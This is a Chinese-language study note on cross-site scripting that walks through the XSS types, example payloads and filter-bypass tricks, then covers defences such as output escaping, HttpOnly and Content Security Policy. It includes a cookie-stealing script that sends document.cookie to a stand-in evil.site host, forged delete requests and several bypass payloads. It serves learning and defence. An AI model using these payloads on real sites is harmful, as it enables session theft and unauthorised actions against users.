





# XSS攻击

> 向站点注入脚本

<!-- more -->
## 类型

### 反射型

> 服务端将请求中参数直接用于构建HTML页面



### 存储型

> 向服务端提交恶意代码并存储在服务端



> 若Cookie被输出到HTML页面，则可向受害者Cookie注入恶意代码

### DOM型

> 前端代码漏洞，客户端JavaScript脚本操作DOM节点时触发恶意代码



### Self-XSS

> 利用社会工程学欺骗用户输入恶意代码

1. 地址栏输入JavaScript伪协议
2. 开发者工具控制台输入
3. 页面文本框输入

## XSS Payload

### 构造GET、POST请求

#### GET

1. 将脚本代码写入文件，通过\<script\>标签载入

   ```
   http://localhost:8080/echo.php?name=<script src="http://evil.site/evil.js"></script>
   ```

   evil.js内容

   ```js
   # 获取Cookie
   var img = new Image();
   img.src = 'http://evil.site/log?cookie='+encodeURIComponent(document.cookie);
   ```

#### POST

1. 表单格式

   ```js
   # 删除博客
   var form = document.createElement('form');
   form.method = 'POST';
   form.action = 'http://blog.example.com/del';
   document.body.appendChild(form);
   var i1 = document.createElement("input");
   i1.name = 'id';
   i1.value = '123';
   form.appendChild(i1);
   form.submit();
   ```

2. JSON格式，利用创建HTTP请求的JavaScript API

   ```js
   # 删除博客
   var xhr = XMLHttpRequest();
   var json = {
       "id": "123"
   };
   xhr.open('POST', '/del');
   xhr.setRequestHeader('Content-Type', 'application/json');
   xhr.send(JSON.stringify(json));
   ```

### XSS 钓鱼

> 利用可信域名URL实行跳转

```
http://example.com/echo.php?name=<script>window.location='http://evil.site';</script>
```

## XSS 蠕虫

> 利用服务端软件或者系统漏洞传播

1. MySpace简介，通过AJAX构建POST请求：

   > https://samy.pl/myspace/tech.html

2. 人人网站发送站内信引诱所有好友，\<script\>标签过滤不严

## 攻击技巧

### 基本变形

1. HTML标签大小写不敏感

   ```html
   <sCrIpT>alert(1)</sCrIpT>
   <sCrIpT SrC="http://evil.site/evil.js"></sCrIpT>
   ```

2. 检测\<script\>特征，填充空白字符

   ```html
   <script
           >alert(1)</script	>
   ```

3. 删除\<script\>等字符

   ```html
   <scri<script>pt>alert(1)</script>
   ```

### 事件处理程序

例：

```html

```



### JavaScript伪协议

> 在需要指定URL的标签属性中插入JS代码

```html
<a href=javascript:alert(1)>click me</a>
<iframe src="javascript:alert(1)"></iframe>
<form action="javascript:alert(1)">
<object data="javascript:alert(1)">
<button formaction="javascript:alert(1)">click me</button>
```

**过滤，关键词插入空白字符绕过**

```html
<a href=java&#13script&#9:alert(1)>click me</a>
```

| 代码      | 字符       |
| --------- | ---------- |
| \&#13;    | 换行       |
| \&#9;     | Tab        |
| \&#20;    | 空格       |
| \&nbsp;   | 不换行空格 |
| \&ensp;   | En空格     |
| \&emsp;   | Em空格     |
| \&thinsp; | 窄空格     |

**校验host是否为合法域名**

```
javascript://example.com/%0d%0aalert(1)
```

| 代码 | 字符 |
| ---- | ---- |
| %0d  | /r   |
| %0a  | /n   |

> //example.com/被当做注释代码

### 编码绕过

> 根据不同位置数据使用不同编码

### 绕过长度限制

```html
<input value="$var" />
```

**一般构造payload**

```html
<input value=""<script>alert(1)</script>" />
```

**利用事件缩短所需长度**

```html
<input value=""onclick=alert(1)//" />
```

**隐藏代码**

```html
<!--基本格式-->
<input value="" onclick="eval(location.hash.substr(1))" />
<!--Payload-->
<input value="" onclick="eval(location.hash.substr(1))#alert(1)" />
```

> location.hash内容不会在HTTP请求中发送，即Web日志不会记录，第一个字符为#，其中内容长度不受限制

**参数拼接**

```html
<input name="name" value=""><script>/*">
<input name="email" value="*/alert(1)/*">
<input name="phone" value="*/</script>">
```

### \<base\>标签

```html
<base href="http://example.com" />

```

> 与其下相对路径组合

### window.name

```html
<!--恶意网站设置name-->
<script>
	window.name="alert(1)";
    window.location="http://example.com/xss.php";
</script>
<!--跳转后在example.com执行-->
eval(name)
```

```html
<!--内嵌指定name-->
<iframe src="http://example.com/xss.php" name="alert(1)"></iframe>
```

> iframe页面跳转不会清空window.name

```html
<!--链接指定name-->
<a href="http://example.com/xss.php" target="alert(1)">click me</a>
```

## JavaScript框架

> 一般使用该框架产生的XSS漏洞都为DOM型

### jQuery

#### 特点

本身安全性很高，但并不能解决代码逻辑产生问题

#### 漏洞

内置html()方法，若无参数则读取一个DOM节点innerHTML，若有参数则写入该节点innerHTML

```
$('div.demo-container').html("");
```

### Vue.js

#### 特点

使用模版渲染，渲染引擎会将变量经HTML转义

```
<h1>{{userProvidedString}}<h1>
```

#### 漏洞

构造模版时接受不安全输入

```js
new Vue({
    el: "app",
    template: `<div>`+userProvidedString+`</div>`
})
```

### AngularJS

#### 特点

自身安全性非常高，但可能给安全程序带来XSS漏洞

#### 漏洞

输出外部变量没有检测构造模版的危险内容

```html
<!--输入参数-->
{{constructor.constructor('alert(1)')()}}
```

## XSS 防御

### HttpOnly

> 即使有XSS漏洞也不会泄露Cookie

### 输入过滤

> 1. 对输入参数进行检测和过滤，放于后端不容易被绕过，放于前端便于检测用户输入错误
>
> 2. 输入参数在不同地方语境不同，如果只是做固定的删除替换转义往往带来问题，对于非常明确的参数值进行检测和强制类型转换，其余不做过滤

### 输出转义

> 输出变量时根据不同场景针对性编码或转义

#### HTML转义

1. 作为属性值

   ```html
   <input name="name" value="$value">
   ```

   > 为避免属性闭合，转义引号
   >
   > 属性值一定得用引号包围，否则可能被绕过
   >
   > ```html
   > <input value=$v>
   > <input value=1 onclick=alert(1)>
   > ```

2. 作为标签内容

   ```html
   <p>$value</p>
   ```

   > 为避免插入新标签，转义<、>

| 字符 | 转义    |
| ---- | ------- |
| &    | \&amp;  |
| "    | \&quot; |
| '    | \&#039; |
| <    | \&lt;   |
| >    | \&gt;   |

> 防止初始内容已经转义绕过，需转义&

PHP中可使用htmlspecialchars()或htmlentitles()转义，但需指定ENT_QUOTES才能转义单引号

#### JavaScript转义

```html
<script>var name='';alert(1);//';</script>
```

> 方案：转义引号

```html
<script>var name='\\';alert(1);//';</script>
```

> 方案：转义“ \\ ”

```html
<script>var name='</script><script>alert(1)</script>';</script>
```

> 方案：转义“ / ”或将<、>用Unicode转义

| 字符 | 转义 |
| ---- | ---- |
| '    | \\'  |
| "    | \\"  |
| \\   | \\\\ |
| /    | \\/  |

JavaScript因为没有遵循代码和数据分离，输出变量本身就不安全，因此可使用HTML标签的“ data-* ”属性来保存数据，需要时从DOM节点读取，此时仅需HTML转义，JS代码可以从HTML页面剥离放在单独.js静态文件中

```html
<div id="UserInfo" data-name="$name"></div>
<script>
	var userInfo = document.getElementById('UserInfo');
    alert(userInfo.dataset['name']);
</script>
```

### 伪协议

1. 属性中的URL来自外部输入需严格检测是否为http、https、/开头

2. window.location对象赋值时也应检测

3. Data URL标签最好不接受外部输入参数

   ```
   data:[<指定资源类型和字符集>][;base64],<data>
   # 可写入Payload
   ```

### 嵌套场景

> HTML与JavaScript混合使用

```html
<body onload="init('$v')">
```

#### 只做HTML转义

> 当输入');alert(1);//

```html
<body onload="init('&#039;);alert(1);//')">
```

> 浏览器先对HTML解析，再对JS解析，成功执行JS代码

```html
<body onload="init('');alert(1);//')">
```

#### 只做JS转义

> 当输入">\<script\>alert(1)\</script\>

```html
<body onload="init('\">\<script\>alert(1)\</script\>')">
```

> 浏览器先对HTML解析，\\还没转义onload属性就已经闭合了，成功执行JS代码

**在不同场景进行不同转义将确保安全性**

### 默认输出转义

模版可对变量默认做出转义，一般为HTML转义

```html
<input name="name" value="{{ value }}">
```

1. 模块不能判断变量输出场景，如果对所有变量采用一种转义方式并不能保证安全

2. 遵循代码数据分离，只渲染HTML内容，JS代码尽量不通过模版渲染

> Python模版引擎Jinja2内置多种过滤器，同时支持类似管道方式多层转义
>
> ```
> {{ value | escape | urlencode }}
> ```

### Content-Type

> Conten-Type不匹配将带来隐患

**例：**

```php+HTML
<?php
	$name = $_GET['name'];
    echo json_encode(array('name=>$name'));
?>
```

```html
<!--name-->

```

> json_encode对参数引号和斜杆转义，但PHP默认响应Content-Type为text/html，输入参数被当成HTML解析，转义失效

IE浏览器提供Content sniffing功能，自动识别格式来判断类型，在很多情况下会造成隐患，例如内含HTML代码的图片被当成HTML来解析，因此建议加上响应头X-Content-Type-Options：nosniff来关闭该功能

### 处理富文本

1. 过滤掉威胁标签，同时禁止事件
2. 过滤标签时使用白名单，只允许比较安全的标签存在
3. 对于用户自定义CSS同富文本一样过滤

富文本过滤项目：

Java：OWASP HTML sanitizer

> https://github.com/OWASP/java-html-sanitizer

PHP：HTML Purify

> http://htmlpurifier.org

Python：bleach

> https://github.com/mozilla/bleach

### DOM型防御

> 在前端JS代码中根据不同场景转义

常见DOM中输出HTML代码方法：

> 1. document.write()
> 2. document.writeln()
> 3. element.innerHTML=
> 4. element.outerHTML=
> 5. element.insertAdjacentHTML=

很多前端JS框架对这些方法进行了封禁

这些都是因为用字符串构造DOM节点产生的漏洞，如果一定得基于字符串则需注意字符串内容是否来自外部

尽量避免直接操作innerHTML

前端动态构造代码执行时注意外部输入，如下列JS函数：

> 1. eval()
> 2. setTime()
> 3. setInterval()
> 4. Function()

常见外部输入：

> 1. window.location
> 2. document.URL
> 3. document.documentURL
> 4. document.baseURL
> 5. document.referrer

### 内容安全策略

> 告知浏览器当前页面可加载资源列表

1. HTTP头

   ```
   # 示例
   Content-Security-Policy: default-src 'self'; img-src *; media-src media.com media2.com; script-src script.example.com 
   ```

   



2. HTML页面嵌入\<meta>

   ```html
   <meta http-equiv="Content-Security-Policy" content="default-src 'self'">
   ```


定义了default-src或script-src就明确指定了源，HTML页面不能包含JS代码，只能通过外部资源嵌入，eval()函数也被禁止

如需使用\<script>内联嵌入JS代码，可指定script-src为'unsafe-inline'

upgrade-insecure-requests向浏览器指示当前页面加载资源必须全是HTTPS，可快速切换HTTPS

#### 阻碍

1. 网站引用外部资源复杂，且随业务变化
2. 已有Web应用改造成本高
3. 对开发人员要求高

#### 注意事项

1. 尽量避免使用unsafe-inline、unsafe-eval、*
2. 指定default-src
3. 将用户上传文件存储在srcipt-src允许之外的域名中
4. 未使用JS前端框架则script-src不应包含公共JS库托管的CDN域名
5. 尽量统一配置


